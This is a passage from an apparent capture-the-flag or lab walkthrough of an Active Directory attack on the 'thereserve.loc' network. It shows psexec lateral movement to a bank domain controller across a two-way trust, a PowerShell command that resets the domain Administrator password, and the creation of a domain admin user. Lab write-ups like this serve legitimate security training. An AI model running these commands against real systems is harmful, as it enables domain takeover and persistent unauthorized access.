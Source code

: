 You've submitted your ticket on ROOTDC, so here you can also authenticate with BANKDC domain, becuase a two-way trust is a relationship established between both domains.

## Come back to CORPDC

C:\Users\Administrator>`exit`

![[Authenticate with BANKDC.BANK.THERESERVE.LOC from host CORPDC-20240612150446037.webp]]

On the CORPDC powershell run:
PS C:\Users\Administrator>`.\psexec.exe \\bankdc.bank.thereserve.loc cmd.exe -accepteula`

![[Authenticate with BANKDC.BANK.THERESERVE.LOC from host CORPDC-20240613135550530.webp]]

### Change the administrator password for ROOTDC

C:\Windows\system32>`powershell.exe -c Set-ADAccountPassword -Identity "Administrator" -NewPassword (ConvertTo-SecureString -AsPlainText "Hacker@123" -Force) -Reset`

rdp into ROOTDC with the new creds.. created a domain admin user for BankDC. Rdp into BankDC.
